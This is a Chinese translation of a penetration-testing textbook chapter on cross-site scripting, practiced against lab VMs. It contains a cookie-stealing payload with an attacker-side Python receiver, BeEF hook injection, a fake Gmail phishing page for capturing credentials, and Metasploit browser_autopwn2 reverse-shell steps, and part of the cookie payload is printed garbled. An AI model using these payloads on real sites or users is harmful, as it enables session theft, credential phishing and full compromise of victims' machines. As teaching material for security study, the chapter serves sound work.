## 第十四章：严重的跨站脚本攻击**

*爱所有人，信任少数人，伤害任何人都不行。*

–威廉·莎士比亚，*《一切都好，结局皆好》*



本章探讨了一种名为*跨站脚本（XSS）*的网站利用技术，它让你能够在其他用户访问一个脆弱的网站时，在他们的浏览器中运行你自己的 JavaScript。成功的 XSS 攻击可以阻止访问网站，窃取 Cookies 和凭证，甚至危及用户的计算机。

一旦你能够熟练地识别并手动执行 XSS 攻击，我们将探讨浏览器利用框架（Browser Exploitation Framework），该框架允许你快速地将 JavaScript 注入到一个脆弱的网站中，进行多种目的的攻击。我们将使用这个框架进行社会工程学攻击并收集凭证。你还将学习如何使用一系列漏洞利用手段接管浏览器，并将反向 Shell 加载到访问你网站的机器上。

### 跨站脚本

如果一个 Web 应用没有正确地清理用户输入，比如评论或博客条目，攻击者可以通过在评论表单中输入 JavaScript 代码而不是合法的评论，将恶意代码注入到网站中。例如，假设网页使用了像图 13-1 这样的模板。



*图 13-1：通过 XSS 注入到模板中的 JavaScript*

模板是包含占位符的框架，表示网页的基本结构。当页面被渲染时，一种名为模板引擎的程序会用程序员指定的值替换这些占位符。例如，程序员可能会告诉模板引擎将`{{name}}`占位符替换为数据库中最后输入的值。如果数据库中的姓氏是 Frances，模板引擎会生成一页显示“欢迎 Frances”。

XSS 攻击的目标是让 Web 应用将恶意 JavaScript 添加到页面中。在这个例子中，攻击者可以通过写一个包含以下内容的评论来欺骗网页，将恶意代码添加到页面中：

```
<script> alert("You've been hacked")</script>
```

`<script>`和`</script>`标签分别表示 JavaScript 代码的开始和结束。在这种情况下，标签内包含 JavaScript 命令`alert()`，该命令会在屏幕上弹出一个消息。模板引擎现在将生成一个包含此评论的网页；然而，由于该评论包含`<script>`标签，浏览器会将其解释为代码而不是文本。当浏览器运行这段代码时，它会打开一个对话框，显示消息“你被黑了！”如果程序员正确地清理了评论，它就不会包含`<script>`标签，浏览器也不会将其解释为代码。

因为恶意的 JavaScript 存储在 Web 应用程序中，我们通常称这种类型的 XSS 攻击为*存储型 XSS* 攻击。还有其他类型的 XSS 攻击，包括反射型 XSS 和 DOM XSS 攻击。我们将在本章稍后讨论反射型 XSS 攻击。你可以在 OWASP 的网站上找到关于 DOM XSS 攻击的详细讨论。

#### *JavaScript 如何变得恶意*

你注入到网站代码中的有效载荷可能是相当有害的。例如，它可能包含盗取用户 Cookies 的 JavaScript 代码，从而允许攻击者冒充用户。

当你访问一个网页时，Web 服务器会将它需要渲染页面的 HTML、JavaScript 和层叠样式表（CSS）代码发送到你的浏览器，并且如果你已经成功认证，Web 服务器可能还会将一个 Cookie 发送到浏览器。如第十二章所讨论，Cookie 是 HTTP 请求和响应中的一个字段，浏览器和 Web 服务器用它来存储值并维持状态。浏览器会存储这个 Cookie，并将它包含在未来发送给 Web 服务器的任何 HTTP 请求中。这样用户就不必在每次执行操作时都重新登录。Web 服务器通过检查 Cookie 来验证 HTTP 请求是否真实有效，因此，如果攻击者窃取了这个 Cookie，他们就可以通过发送包含被窃取 Cookie 的 HTTP 请求来访问受害者的账户。

为了更好地理解 Cookie，让我们来看一下允许你查看和分析浏览器接收到的 HTML、JavaScript、CSS 和 Cookie 的 Web 开发者工具。打开 Firefox，然后按 CTRL-SHIFT-I 打开它的开发者工具（图 13-2）。



*图 13-2：在 Firefox 中访问开发者工具*

点击 **Debugger** 标签 ➊ 打开一个窗口，让你可以查看页面的代码。使用面板 ➋，导航到相关的文件和文件夹。窗口 ➌ 显示相关的源代码。要运行这个 JavaScript 并查看它的作用，点击 **Console** 标签 ➍。

JavaScript 是一种解释型语言，这意味着你不需要重新编译程序就可以运行新的命令。试着在控制台中输入新命令。例如，输入以下命令查看页面的 Cookies：

```
>> document.cookie

"PHPSESSID=9f611beee982be16e46d462378505ef8"
```

要使用这个 JavaScript 偷取受害者的 Cookie，攻击者必须将代码注入到属于该 Cookie 所在域的页面中。这是因为有一个被称为*同源策略*的安全策略，它只允许在同一页面上运行的 JavaScript 访问该页面的资源。所以，运行在一个域上的 JavaScript 不能访问与另一个域相关的 Cookie。例如，运行在 *virginia.edu* 上的 JavaScript 无法访问由 *[nostarch.com](http://nostarch.com)* 创建的 Cookie。

为了更好地理解攻击的机制，考虑以下 JavaScript 代码。它包含一个 HTML 图像标签，其中包含精心设计的恶意代码，用于窃取 Cookie。这段 JavaScript 是攻击者将注入页面的有效载荷：

```
<script>document.write('/captureCookie.php?

			 cookie='+ escape(document.cookie) + '" />);</script>
```

在 `<script>` 标签内，JavaScript 命令 `document.write()` 使用浏览器的文档 API 向 *文档对象模型（DOM）* 写入内容，DOM 是网页的虚拟表示。这里，它写入了一张图片（``）。然而，这张图片是特殊的。它的源 URL，浏览器应该从该位置获取图片，指向攻击者的服务器，并且它的查询字符串参数（`cookie`）包含用户的 Cookie。所以，当图片加载时，它会将用户的 Cookie 发送到攻击者的服务器。一旦攻击者访问了受害者的 Cookie，他们就可以尝试以用户身份进行身份验证。

最后，Cookie 可能包含 URL 中不允许的字符，因此我们必须在发送 Cookie 时进行转义，将其作为查询字符串参数包含在源 URL 中。当浏览器尝试加载图片时，它将生成一个 `GET` 请求发送到攻击者的服务器，实际上是将用户的 Cookie 直接发送给攻击者。

接收这些 Cookie 的攻击者服务器可能正在运行一个简单的 Python 程序，如下所示，它提取 `GET` 请求中的查询字符串参数：

```
from http.server import BaseHTTPRequestHandler, HTTPServer
from http.cookies import SimpleCookie
from urllib.parse import urlparse
import ssl
class RequestHandler(BaseHTTPRequestHandler):

    def do_GET(self):

        parameters = urlparse(self.path).query

        print(parameters)

if __name__ == '__main__':

    server = HTTPServer(('localhost', 443), RequestHandler)

    print('Starting Server')

    server.socket = ssl.wrap_socket (server.socket, certfile='server.crt', keyfile='server.key

			 ', server_side=True)

    server.serve_forever()
```

注意，它正在使用加密的套接字，因此你需要生成你的 *server.crt* 证书和私钥 *server.key*。有关如何生成的详细信息，请参见第六章。为了更加隐秘，你可以购买一个你拥有的域名的证书。在你提取了 Cookie 后，你可以将其加载到浏览器中并访问用户的账户。实现这一点的一种方法是使用 *Cookie Quick Manager*，一个 Firefox 扩展，允许你编辑、添加和删除浏览器中的 Cookie（图 13-3）。



*图 13-3：Quick Cookie Manager 的示例*

当你安装扩展程序时，你会在工具栏看到一个饼干图标 ➊。点击该饼干图标，然后选择**管理所有 Cookie**。这将显示你浏览器当前拥有的所有 Cookie。当你点击一个特定的域名 ➋，它将显示你浏览器为该域名存储的所有 Cookie。你可以通过修改值字段 ➌ 来编辑 Cookie。你需要点击页面底部的铅笔图标来启用编辑功能。一旦你加载了被窃取的 Cookie，你就可以访问受害者的账户。

#### *存储型 XSS 攻击*

现在你已经理解了 XSS 攻击的一般机制，让我们通过执行一个存储型 XSS 攻击来逐步了解一个真实的例子。如前所述，我们将使用博客帖子将恶意 JavaScript 插入到服务器中。我们将攻击在第十二章中使用的易受攻击的 Mutillidae 应用程序的博客页面。这个应用托管在 Metasploitable 上，所以启动 Metasploitable 虚拟机，登录并使用 `**ifconfig**` 获取服务器的 IP 地址。现在启动 Kali Linux 虚拟机中的 Web 浏览器，并通过选择 **OWASP Top 10** ▶ **A2 Cross Site Scripting (XSS)** ▶ **Persistent (Second Order)** ▶ **Add to your blog** 来访问 Mutillidae 应用中的“添加你的博客”页面。

现在，让我们通过尝试向我们的博客帖子注入一些 JavaScript 来测试这个页面是否容易受到 XSS 攻击（图 13-4）。


*图 13-4：在 Mutillidae 博客中执行存储型 XSS 攻击*

我们不会在文本框中写常规的博客帖子，而是会写一些 JavaScript 代码（`<script> alert("Hacked") </script>`）并保存该帖子。刷新页面后，Mutillidae 会检索恶意 JavaScript 并将其嵌入到页面中，就像处理其他博客帖子一样。然而，不同于其他博客帖子，你的新博客帖子包含 JavaScript 代码，浏览器会执行它。如果成功运行，它应该会弹出一个包含 *Hacked* 的弹窗。保存博客帖子并刷新页面，这应该会将 JavaScript 代码嵌入页面并使浏览器显示弹窗。

要理解为什么这个攻击有效，请查看图 13-5 中的表格，该表格显示了直接位于**保存博客条目**按钮下方的博客条目。你会注意到一个空的博客条目 ➊。这就是我们刚刚创建的条目。要查看该条目的源代码，右键点击该条目，并从下拉菜单中选择**检查**选项。这将启动开发者工具。

如果你使用工具读取表格代码和数据，你应该注意到包含你新创建帖子 ➋ 的表格数据项（`<td>`）。该条目包含你的恶意 JavaScript，浏览器会将其作为代码执行，而不是在浏览器中显示为文本。这就是我们博客条目为空的原因。



*图 13-5：使用开发者工具显示恶意脚本被插入的位置*

这个恶意 JavaScript 会在任何用户访问博客页面时运行。我们这里只执行了一个简单的 alert，但我们可以执行任何恶意 JavaScript，例如我们之前编写的窃取 cookie 的脚本。

#### *反射型 XSS 攻击*

*反射型 XSS* 攻击利用了 web 应用中的一个漏洞，该漏洞发生在应用将 HTTP 请求消息中的数据包含到 HTTP 响应中时，而没有进行充分的清理。考虑以下攻击场景。攻击者发送一封邮件，邮件内容是“看看这篇关于黑客的好文章。”然而，受害者并不知道，攻击者在邮件中包含的链接的查询字符串参数中嵌入了一些恶意的 JavaScript 代码。当用户点击链接时，Web 服务器会将恶意的 JavaScript 代码从查询字符串参数添加到页面中，并且浏览器会执行它。

要查看查询字符串参数如何添加到页面中的例子，复制以下 URL 到你的网页浏览器： *[`www.google.com/?q=Ethical+Hacking`](https://www.google.com/?q=Ethical+Hacking)*。注意到谷歌的服务器将查询字符串参数中的值添加到搜索框中作为搜索词。现在假设一个网站没有正确清理查询字符串参数。在这种情况下，攻击者可能利用反射型 XSS 攻击将恶意 JavaScript 注入到受害者的浏览器中。

看看一个针对你在 Metasploitable 服务器上安装的 DVWA 的例子。你可以通过 Kali Linux 机器上的浏览器访问它，导航到 *http://<Metasploitable-IP>/dvwa/login.php*。使用用户名 **admin** 和密码 **password** 登录。就像 Mutillidae 应用一样，DVWA 有安全级别。点击 **Security** 标签，并将安全级别设置为 **low**。点击 **XSS Reflected** 标签。你应该能看到一个提交框，允许你向服务器发送输入（图 13-6）。试着在提交框中输入“test”。



*图 13-6：DVWA 的反射型 XSS 页面*

现在看看这个 URL。你应该注意到，`name` 查询参数现在包含了值 `test`：

```
http://<Metasploitable IP address>/dvwa/vulnerabilities/xss\_r/?name=test#
```

还要注意，查询字符串参数的值反射到页面中，位于提交框下方。如果我们在 URL 中包含 JavaScript，并且应用没有正确地清理它，我们可以直接将 JavaScript 注入到页面中。将以下 URL 复制到你的浏览器中并按回车键：

```
http://<Metasploitable IP address>/dvwa/vulnerabilities/xss\_r/?name=<script>

			 alert("hacked")</script>
```

这里我们使用 `name` 查询参数来注入我们的 alert 脚本。如果你看到一个警告框，那么你就成功地执行了第一次反射型 XSS 攻击。

### 使用 OWASP Zed Attack Proxy 查找漏洞

与 SQL 注入类似，网站通过多种手段清理用户输入来防御 XSS 攻击。OWASP 维护了一份关于防止 XSS 攻击的最佳方法文档，以及绕过这些防护的策略。你可以在 OWASP 的网站上找到这些信息。

为了帮助公司审计其网站，OWASP 开发了 OWASP *Zed Attack Proxy (ZAP)*，这是一种预装在 Kali Linux 中的审计工具，可以扫描应用程序，发现像 XSS 或 SQL 注入攻击等 web 漏洞，这些攻击在第十二章中有讨论。

让我们扫描 Mutillidae 应用，看看能发现什么漏洞。启动 OWASP 并选择默认设置选项。设置完成后，点击**快速开始**选项卡并选择自动扫描。



*图 13-7：启动 ZAP 扫描*

在框中输入 Mutillidae 应用的 URL。ZAP 将通过跟随它发现的链接来探索该域中的所有 URL。我们将此过程称为*蜘蛛爬行*或*爬取*。然而，现代 Web 应用有时会使用 JavaScript 动态渲染 URL 或访问 API，而这无法通过传统的蜘蛛爬行来检测。因此，ZAP 团队创建了*Ajax 蜘蛛*，这是一个启动浏览器并等待页面加载后通过点击链接和输入数据来探索页面的工具。要使用此工具，选择**使用 ajax 蜘蛛**选项和**Firefox 无头模式**选项，该选项使用 Firefox 浏览器而不打开窗口。如果您选择 Firefox 选项，ZAP 将打开 Firefox，您将能够看到它使用 Selenium 测试框架探索页面。选择好这些选项后，点击**攻击**开始扫描。



*图 13-8：运行快速 ZAP 扫描的结果*

当扫描完成后，您应该会看到图 13-8 所示的屏幕。左下角面板显示了 ZAP 发现的可能的 Web 漏洞列表。您应该会看到 ZAP 工具发现了包含我们之前利用的 XSS 漏洞的*add-to-your-blog.php*页面➊。该工具还显示了服务器生成的 HTTP 响应的头部➋，以及响应的主体，其中包含 HTML ➌。作为 XSS 攻击可能存在的证据，工具突出显示了它注入 JavaScript 的位置。ZAP 还突出显示了攻击的细节 ➍。该面板还包含有关存在漏洞的 URL 以及漏洞的简短描述的信息。

您可能已经能看出，ZAP 是一个非常有用的工具。花些时间通过在线浏览其文档来熟悉它的各种强大功能。扫描 Web 应用的另一种方式是搜索与构建它所使用的技术相关的已知漏洞。使用第八章中讨论的工具和技术来发现目标的底层技术。例如，您可能会执行`whatweb`扫描，并使用`searchsploit`命令行工具查找与用于构建应用的特定版本软件相关的漏洞。

### 使用浏览器利用框架有效载荷

*浏览器利用框架（BeEF）* 使黑客能够轻松地将恶意 JavaScript 有效载荷嵌入到易受攻击的应用程序中并进行控制。我们将使用该工具探索使用恶意 JavaScript 可以实现的许多功能。BeEF 应该在 Kali Linux 中预安装；然而，如果您的版本没有它，您可以通过以下命令进行安装：

```
kali@kali:~$ sudo apt-get install beef-xss
```

#### *注入 BeEF Hook*

安装完成后，运行 BeEF：

```
kali@kali:~$ sudo beef-xss
```

在框架启动时，你可能需要输入用户名和密码。创建这些账户，并确保记住它们。你的终端应显示如下内容：

```
   [*] Please wait for the BeEf service to start.

   [*] You might need to refresh your browser once it opens.

   [*]
➊ [*]  Web UI: http://127.0.0.1:3000/ui/panel
➋ [*]   Hook: <script src="http//<IP>:3000/hook.js"></script>

   [*] Example: <script src="http//127.0.0.1:3000/hook.js"></script>
```

复制 BeEF Web 界面的 URL ➊ 并输入到你的浏览器中。你应该会看到 BeEF 登录界面，如 图 13-9 所示。使用你之前创建的用户名和密码登录。



*图 13-9：BeEF 登录界面*

此时，你已经设置好了 BeEF 服务器。服务器将监听来自你植入的恶意 JavaScript 的连接。框架还会提供你要注入的 JavaScript ➋。这里包含的 script 标签将加载 *hook.js* 文件，这是一种与 BeEF 服务器通信的恶意 JavaScript 文件。一旦模块加载完成，你就可以访问该模块的所有功能。

使用本章之前介绍的存储 XSS 攻击，将此有效载荷注入到 Mutillidae 的博客页面 *add-to-your-blog.php* 中。如果你成功执行了攻击，脚本应嵌入到网页中，你的 Kali Linux 浏览器应出现在 BeEF Web UI 中的受害者机器列表中 (图 13-10)。任何访问该网页的浏览器都会被恶意 JavaScript 挂钩。



*图 13-10：运行恶意 JavaScript 的浏览器列表*

为了测试这个，尝试挂钩 Ubuntu 虚拟机上的 Firefox 浏览器。启动 Ubuntu 并访问博客页面。当 Ubuntu 机器加载页面时，它应该会被添加到在线浏览器的列表中。

#### *执行社会工程学攻击*

在你已经挂钩浏览器之后，你可以做什么？尝试使用 BeEF 框架发起社会工程学攻击。当受害者尝试访问博客页面时，这个攻击将展示一个假登录界面。当用户输入用户名和密码时，BeEF 框架将捕获这些凭证并将用户重定向到博客页面。

要开始，请点击列表中挂钩的浏览器的 Ubuntu 机器 IP 地址，并选择 **命令** 标签 (图 13-11)。

**命令** 标签包含了 BeEF 模块的列表。我建议你浏览一下这些模块；你会对你能够做的事情感到惊讶，因为一旦你能将自己的 JavaScript 注入到网站中，你几乎可以做任何事。你甚至可以使用 Ruby 和 JavaScript 编写自己的 BeEF 模块。如果你有兴趣尝试，请查看文档：*[`github.com/beefproject/beef/wiki/Module-Creation/`](https://github.com/beefproject/beef/wiki/Module-Creation/)*。



*图 13-11：在 BeEF 中执行社会工程学攻击*

点击**社会工程学**文件夹，选择**Google 钓鱼**攻击。此攻击注入了模仿 Gmail 登录页面的 JavaScript。执行攻击后，你将在受害者的机器上看到类似于图 13-12 的页面。



*图 13-12：伪造的 Google 登录页面*

将**XSS hook URL**设置为*/index.php?page=add-to-your-blog.php*。当用户输入他们的凭据时，他们将被重定向到 hook URL 指定的页面。然后，点击**执行**，并使用 Ubuntu 浏览器访问博客页面。在伪造的登录页面中尝试输入一些虚假的凭据。当你在 BeEF 界面的**模块结果历史**面板中点击**命令 1**时，你应该能看到捕获的用户名和密码（图 13-13）。



*图 13-13：通过钓鱼攻击窃取的凭据*

**详情**标签提供了 BeEF 框架收集到的关于浏览器的信息，包括浏览器的版本以及可能受到哪些类型攻击的影响。

### 从浏览器到机器的转变

所以，你已经攻破了一个网站。但如果你希望访问访问该网站的计算机，你可能会感到困惑。大多数现代浏览器标签页都是*沙盒化*的；也就是说，它们与其他标签页和操作系统是隔离的。这防止了在一个标签页中运行的恶意代码访问同一设备上的其他内容。

现在假设沙盒中存在漏洞。在这种情况下，攻击者可能能够利用恶意 JavaScript 来利用这些漏洞，突破浏览器限制，并在目标机器上运行反向 shell。这将允许攻击者通过利用脆弱的网站来攻破用户的机器。这种攻击可能会造成极大的危害：想象一下，如果攻击者向一个流行的社交媒体网站或搜索引擎注入恶意代码，并随后访问每个访客的机器。

这种攻击并不罕见。每年，Pwn2Own 黑客竞赛都会给黑客三天时间，通过网页浏览器入侵机器。这些机器通常运行最新的操作系统和浏览器，并且每年都有获胜者。

#### *案例研究：利用旧版 Chrome 浏览器的漏洞*

2017 年，Chrome 安全团队的工程师 Oliver Chang 发现了 Chrome V8 JavaScript 引擎中的一个漏洞。这个漏洞允许攻击者执行越界写操作，从而在受害者的机器上启动一个 shell。你可以在 Exploit Database 中找到这个漏洞的代码，ID 为 42078。当代码运行时，受影响版本的 Chrome 浏览器会在 Linux 机器上启动计算器应用程序。启动计算器已经成为展示可以逃离浏览器的事实标准方式。越界读取和写入是非常值得寻找的漏洞。攻击者可以利用这些漏洞，通过链式利用一系列攻击技术来加载并执行 shell。

实际上，发现并编写浏览器的漏洞利用代码可能是一个复杂的过程。最流行的浏览器，Chrome 和 Safari，由两家大型科技公司开发，并且拥有内部测试团队。因此，虽然传统的技术如模糊测试和符号执行可能有助于你发现漏洞，但请记住，这些公司也使用模糊测试工具。例如，Google 有一个内部工具来对 Chrome 进行模糊测试，名为*ClusterFuzz*，他们几乎肯定会在发布新版本浏览器之前运行它。因此，你可能会通过手动代码检查获得最佳结果。幸运的是，Chrome（Blink）和 Safari（Webkit）所使用的浏览器引擎是开源的，并且这些项目有着很好的文档记录，因此你可以自己编译和调试它们。Chrome 团队甚至有一个免费的 YouTube 讲座系列，供 Google Chrome 开发者观看，叫做 Chrome University。该系列讲座专门讲解了 CVE-2019-5786 漏洞，这个漏洞影响了 2019 年的 Chrome，并被某个国家行为者利用。

一旦这些漏洞被修复，更新用户设备需要时间（从几天到几周）。由于这些项目是开源的，攻击者可以在修复内容进入生产环境之前查看并利用这些修复。

#### *通过网站利用安装 Rootkit*

攻击者如何将本章所涵盖的漏洞串联起来，比如在受害者访问某个网站时安装 Rootkit？考虑以下攻击场景：你扫描了一个网站并发现了一个应用程序中的 XSS 漏洞。我们将这个漏洞称为漏洞 1。接下来，你利用这个漏洞上传恶意 JavaScript 代码，使其跳出浏览器的沙盒，并将恶意的反向 shell 加载到受害者的机器上（漏洞 2）。一旦反向 shell 连接到你的攻击者服务器，你就可以利用一个内核漏洞（在第十四章中讨论）提升权限（漏洞 3）并安装 Rootkit。你现在可以隐秘地控制这台机器。

图 13-14 展示了使用 BeEF 和 Metasploit 执行此漏洞的过程。



*图 13-14：Web 服务器、受害者笔记本和黑客服务器之间的交互*

首先，受害者访问一个包含你注入的恶意 JavaScript ➊ 的网站。当受害者的浏览器加载页面 ➋ 后，代码被激活，接着它连接到 BeEF 服务器 ➌。BeEF 服务器随后注入额外的恶意 JavaScript ➍，该代码包含指向 Metasploit 服务器上漏洞利用代码的链接。浏览器将连接到 Metasploit 服务器 ➎，并下载自动扫描浏览器漏洞的 JavaScript 代码 ➏。如果发现漏洞，代码会利用该漏洞并在受害者机器上加载一个反向 Shell，该 Shell 会连接到 Metasploit 服务器 ➐。现在，攻击者可以执行权限提升攻击并安装 rootkit。

我们可以尝试通过在 Ubuntu 虚拟机上安装一个易受攻击的 Firefox 浏览器版本来执行此攻击。我们将使用 Metasploit 的 `browser_autopwn2` 模块自动扫描浏览器中的一系列漏洞。通过在 Kali Linux 虚拟机中打开终端并运行 `msfconsole` 启动 Metasploit 控制台。一旦 Metasploit 框架启动并运行，运行以下命令选择 `browser_autopwn2` 模块：

```
msf6 > use auxiliary/server/browser_autopwn2
```

使用 `options` 命令查看可用选项列表。我们将保持默认选项，但为了更具隐蔽性，你可能想指定一个 SSL 证书和 URL 路径，而不是使用随机生成的选项。例如，工具 URLCrazy 可以识别看起来与目标域名相似的域名。

现在通过运行 `browser_autopwn` 代码来启动 Metasploit 服务器：

```
msf6 auxiliary(server/browser_autopwn2) > run

   [*] Starting listeners...

   [*] Time spent: 20.41047527

   [*] Using URL: http://0.0.0.0:8080/TB19m513Mq91
➊ [*] Local IP: http://192.168.1.113:8080/TB19m513Mq91

   [*] The following is a list of exploits that BrowserAutoPwn will consider using.

   [*] Exploits with the highest ranking and newest will be tried first.

➋ Exploits

  ========

Order  Rank       Name                                 Payload

-----  ----       ----                                 -------

1      Excellent  firefox_webidl_injection             firefox/shell_reverse_tcp on 4442

2      Excellent  firefox_tostring_console_injection   firefox/shell_reverse_tcp on 4442

3      Excellent  firefox_svg_plugin                   firefox/shell_reverse_tcp on 4442

4      Excellent  firefox_proto_crmfrequest            firefox/shell_reverse_tcp on 4442

5      Excellent  webview_addjavascriptinterface       android/meterpreter/reverse_tcp on 4443

6      Excellent  samsung_knox_smdm_url                android/meterpreter/reverse_tcp on 4443

7      Great      adobe_flash_worker_byte_array_uaf    windows/meterpreter/reverse_tcp on 4444
```

你应该能看到服务器的 URL ➊ 和模块将尝试的一系列漏洞 ➋。不过，许多漏洞已经过时，只能在 Firefox 27 或更早版本中工作。然而，这个模块是开源的，也许本书的某个读者会更新它，加入新的漏洞。现在，你只需在一个旧版本的 Firefox 上运行它们。使用以下命令下载并安装 Ubuntu 虚拟机上的旧版本：

```
victim@ubuntu:~$ wget ftp.mozilla.org/pub/firefox/releases/26.0/linux-x86_64/en-GB/firefox

			 -26.0.tar.bz2
tar -xjf firefox-26.0.tar.bz2
victim@ubuntu:~$ cd firefox
victim@ubuntu:~/firefox$ ./firefox
```

现在使用 BeEF 注入一些恶意 JavaScript。确保你已经通过在 Metasploitable 服务器的博客页面中注入有效负载，成功挂钩了 Ubuntu 虚拟机上的浏览器。然后，打开包含 BeEF UI 的浏览器窗口，点击与 Ubuntu 虚拟机关联的浏览器。正如本章前面所做的，选择 **Commands** 并打开 **Misc** 文件夹。点击 **Raw JavaScript** 模块。这个模块允许你将任何 JavaScript 注入到页面中。在这种情况下，我们将注入一个脚本，加载与 `browser_autopwn2` 模块关联的恶意页面：

```
window.location="http://192.168.1.113:8080/bEBTChJshPJ";
```

这个 JavaScript 命令会在用户的浏览器中打开一个标签页，并导航到恶意页面。这种方式不太隐蔽，但很有效。更微妙的方法是直接将与攻击相关的 JavaScript 注入页面中。点击**执行**并切换到运行 `browser_autopwn2` 模块的终端。如果攻击成功执行，你应该会有一个新的 Meterpreter 会话。输入 `**sessions**` 查看可用会话列表：

```
msf6 auxiliary(server/browser_autopwn2) > sessions

Active sessions

===============

  Id  Name  Type             Information  Connection

  --  ----  ----             -----------  ----------

  1         shell sparc/bsd               192.168.1.113:4442 ->

			 192.168.1.109:41938 (192.168.1.109)
```

你可以通过输入 `**session**` 关键字后跟会话号与会话互动。例如，`sessions 1` 让你与第一个会话交互。试着运行一些简单的命令，如 `**whoami**` 或 `**pwd**`，或者你可以运行 `**help**` 查看所有可用的命令。你可能想利用这个 Shell 下载一个 rootkit，这样即使浏览器被更新后，你仍能避免被发现并保持对机器的访问权限。

